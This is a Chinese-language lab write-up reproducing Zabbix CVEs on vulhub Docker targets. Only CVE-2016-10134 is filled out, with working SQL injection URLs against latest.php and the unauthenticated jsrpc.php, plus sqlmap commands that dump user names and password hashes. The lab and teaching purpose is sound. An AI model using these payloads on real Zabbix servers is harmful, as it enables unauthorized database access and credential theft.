Zabbix历史漏洞复现
介绍
Zabbix 是一款功能强大的开源企业级监控解决方案，旨在监控 IT 基础设施的各个方面，包括网络设备、服务器、云服务、虚拟机和应用程序。 Zabbix 的核心功能
- 多维度监控： 支持 SNMP、IPMI、JMX、Zabbix Agent、无 Agent 监控等多种方式。
- 实时告警： 当系统出现异常（如 CPU 过高、硬盘空间不足）时，通过邮件、微信、钉钉或短信通知管理员。
- 可视化展示： 提供仪表盘（Dashboards）、拓扑图（Maps）和详细的图表。
- 自动发现： 能够自动扫描网络并添加新发现的主机，无需手动一个个录入。
Zabbix Server Active Proxy Trapper 命令注入漏洞修复绕过（CVE-2020-11800）
靶场环境：vulhub/zabbix/CVE-2020-11800
靶场搭建
git clone https://github.com/vulhub/vulhub.git
cd vulhub/zabbix/CVE-2020-11800
docker compose up -d启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库，启动完成后执行docker compose ps查看容器是否全部成功启动，如果没有，可以尝试重新执行docker compose up -d
漏洞原理
漏洞复现
如何修复
Zabbix Server Active Proxy Trapper 命令注入漏洞（CVE-2017-2824）
靶场环境：vulhub/zabbix/CVE-2017-2824
靶场搭建
git clone https://github.com/vulhub/vulhub.git
cd vulhub/zabbix/CVE-2017-2824
docker compose up -d启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库，启动完成后执行docker compose ps查看容器是否全部成功启动，如果没有，可以尝试重新执行docker compose up -d
漏洞原理
漏洞复现
如何修复
Zabbix latest.php SQL注入漏洞（CVE-2016-10134）
靶场环境：vulhub/zabbix/CVE-2016-10134
靶场搭建
git clone https://github.com/vulhub/vulhub.git
cd vulhub/zabbix/CVE-2016-10134
docker compose up -d启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库
- 启动完成后执行
docker compose ps -a查看容器是否全部成功启动
- 这里发现有一个容器没有启动成功，重新执行
docker compose up -d
此时靶场启动成功
漏洞原理
在Zabbix版本2.2.14和3.0.4之前，latest.php文件存在SQL注入漏洞。该漏洞允许远程攻击者通过toggle_ids数组参数在latest.php中执行任意SQL命令。该漏洞也可以通过jsrpc.php利用，且无需任何用户身份。
漏洞的根源在于 latest.php 接收 toggle_ids[] 参数时，直接将其带入了数据库查询语句，而没有进行充分的预编译处理或类型检查。
参考链接：
- https://github.com/vulhub/vulhub/blob/master/zabbix/CVE-2016-10134/README.zh-cn.md
- https://www.cnblogs.com/cute-puli/p/15659959.html
漏洞复现
访问http://your-ip:8080，用账号guest（密码为空）登录游客账户。

通过latest.php触发sql注入
登录guest用户
登录后，查看Cookie中的zbx_sessionid，复制后16位字符：

我这里的后16位是：2253121053f01ac9将这16个字符作为sid的值，访问http://your-ip:8080/latest.php?output=ajax&sid=填写后16位&favobj=toggle&toggle_open_state=1&toggle_ids[]=报错注入语句
http://192.168.79.111:8080/latest.php?output=ajax&sid=2253121053f01ac9&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0x7e,database()),0)

发现成功注入，带出数据库名称zabbix 还可以使用sqlmap去测试，在burp中将刚才的请求保存到文件

还需要对该文件，做一下修改
使用sqlmap，测试sql注入， –batch的意思，自动化默认选项，不再询问用户python sqlmap.py -r 你保存请求的文件路径 --batch

观察sqlmap的结果，该注入点，存在内联查询，报错注入，时间盲注，接下来进一步利用- 获取数据库名 –dbs 获取数据库名
python sqlmap.py -r ../1.txt --batch --dbs

- 获取zabbix数据库的表名 –tables 获取表名 -D 指定数据库
python sqlmap.py -r ../1.txt --batch -D zabbix --tables

- 获取zabbix数据库中users表的列名 –columns 获取列名 -T 指定表名
python sqlmap.py -r ../1.txt --batch -D zabbix -T users --columns

- 获取表中的内容 –dump 获取数据 -C 指定列名
python sqlmap.py -r ../1.txt --batch -D zabbix -T users -C name,passwd --dump

可以看到有一个空用户是空密码，很可能对应的就是guest用户，还有一个Zabbix用户，密码是zabbix不登录任何用户

ee88e5e194957d1a将这16个字符作为sid的值，访问http://your-ip:8080/latest.php?output=ajax&sid=填写后16位&favobj=toggle&toggle_open_state=1&toggle_ids[]=报错注入语句
http://192.168.79.111:8080/latest.php?output=ajax&sid=ee88e5e194957d1a&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0x7e,version()),0)

为什么不登录用户也可以呢？- Zabbix 在用户访问登录页面时，就会自动在服务端创建一个会话并向浏览器发放一个
zbx_sessionid。即使此时你尚未输入用户名密码，这个 Session ID 已经是一个“合法”的 ID。 - 在受影响的 Zabbix 版本中，
latest.php等部分页面在处理带有output=ajax的请求时，只校验了sid（即zbx_sessionid）是否在请求参数中，但没有校验这个sid是否已经通过了身份认证。
通过jsrpc.php触发sql注入
这个漏洞还能通过jsrpc.php触发，且无需登录，只需要访问http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=报错注入sql语句
http://192.168.79.111:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0x7e,database()),0)

也可以尝试去使用sqlmap去自动化测试，同上这里不再详细演示 –flush-session 清除缓存python sqlmap.py -u "http://192.168.79.111:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=*" --flush-session --batch

在这个页面，sqlmap还测出了布尔盲注，如果想学习sqlmap是怎么注入的可以加上-v 3 –tech B 指定注入方式为布尔盲注，-v 3 显示所有的payload（攻击载荷）python sqlmap.py -u "http://192.168.79.111:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=*" --batch --tech B -v 3 --dbs


看不懂也没关系，可以借助ai进行理解，学习，ai肯定能看懂
如何修复
Zabbix 官方在后续版本中通过以下方式修复了该问题：
- 强化输入校验： 使用
zbx_ctype_digit等函数强制检查toggle_ids必须为数字。 - 改进数据库抽象层： 确保所有进入
IN查询的数组元素都经过严格的转义或预编译处理。 我们能做的就是立即升级 Zabbix 至安全版本。